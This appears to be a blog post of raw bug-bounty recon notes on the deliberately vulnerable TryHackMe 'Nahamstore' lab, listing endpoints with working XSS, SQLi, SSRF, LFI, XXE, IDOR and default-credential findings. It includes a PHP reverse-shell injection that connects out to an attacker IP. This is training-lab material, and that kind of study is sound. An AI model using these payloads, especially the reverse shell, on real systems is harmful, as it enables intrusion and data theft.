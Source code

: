 ```yaml
---
layout: post
title: "Nahamstore Recon Notes"
date: 2022-08-16 00:00:0
permalink: nahamstore-recon-notes/
tags: bug bounty tryhackme
---
```

_Not a walkthrough or writeup. Just my raw recon notes and vulnerabilities_
<br><br>
### Root domains
- nahamstore.thm

### Web Technologies
- nginx, ubuntu, jqurey

---
## nahamstore.thm
__Ports:__ 22,80,8000

### www.nahamstore.thm, shop.nahamstore.thm -> nahamstore.thm
-   `/<img src=/ onerror=alert()>` [rXSS] [Page Not Found]
-   `/?q` [rXSS]
-   `/?r` [open redirect]
<br><br>
-	`/basket` [POST] [address_id] [IDOR, PII]
<br><br>
-	`/register` [POST] [register_email, register_password]
-	`/register?redirect_url` [open redirect]
<br><br>
-	`/returns` [POST] [return_info] [sXSS]
-   `/returns` [POST] [order_number] [SQLi]
<br><br>
-   `/uploads` [301 -> 127.0.0.1:80]
<br><br>
- 	`/login`
-	`/logout`
<br><br>
-	`/search?q='-alert("test")-'` [rXSS] [js param `search`]
-   `/?q=%22+onfocus%3Dalert()+autofocus+` [rXSS][searchbox]
<br><br>
-   `/stockcheck` [POST] [SSRF] 
`server=stock.nahamstore.thm@internal-api.nahamstore.thm?a=&product_id=1`
<br><br>
-	`/staff` [File Upload - "xlxs only"] [XXE via xlxs]
<br><br>
-   `/account/orders`
-   `/account/settings` [Email,password change, disable acct]
-   `/account/addressbook` [Address change]
-   `/account/addressbook` [POST] [`new_address_title,new_address_fname,new_address_lname,new_address_line1,new_address_line2,road,new_address_line3,new_address_state,new_address_zipcode`]
-   `/account/orders/3`
<br><br>
-   `/product?id=2&name=</title>` [rXSS] 
-   `/product?id=2&discount=" onfocus="alert()" autofocus "` [rXSS]
-   `/product` [Discount, Add to basket, Check Stock]
-   `/product?id=` [SQLi] [rXSS]
-   `/product` [POST] [discount] [rXSS]
-   `/product/picture/?file=....//....//....//....//....//lfi/flag.txt` [LFI] 
<br><br>
-   `/pdf-generator` [POST] [IDOR] 
`what=order&id=3%26user_id=3`
- `/pdf-generator` [POST] [Blind RCE]
`what=order&id=4%3b$(php+-r+'$sock%3dfsockopen("10.11.80.81",1337)%3bshell_exec("sh+<%263+>%263+2>%263")%3b')`

### internal-api.nahamstore.thm
-   `/orders` [Information Disclosuer, IDOR]
[`"id":"4dbc51716426d49f524e10d4437a5f5a","5ae19241b4b55a360e677fdd9084c21c","70ac2193c8049fcea7101884fd4ef58e"`]

### nahamstore.thm:8000
-   `/admin` [admin:admin] [Marketing Manager Dashboard]
-   `/admin/8d1952ba2b3c6dcd76236f090ab8642c` [RCE] [PHP rev shell]

### marketing.nahamstore.thm
-   `/?error=` [XSS]

### nahamstore-2020-dev.nahamstore.thm [API]
-   /api/customers/?customer_id=2 [IDOR, Information Disclosure]

### stock.nahamstore.thm [API]
-   `/product`
-   `/product/1`
-   `/product/1?xml` [XML output]
-   `/product/1?xml` [XXE] [POST]

<br>

```xml
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<data>
    <X-Token>
        &xxe;
    </X-Token>
</data>
```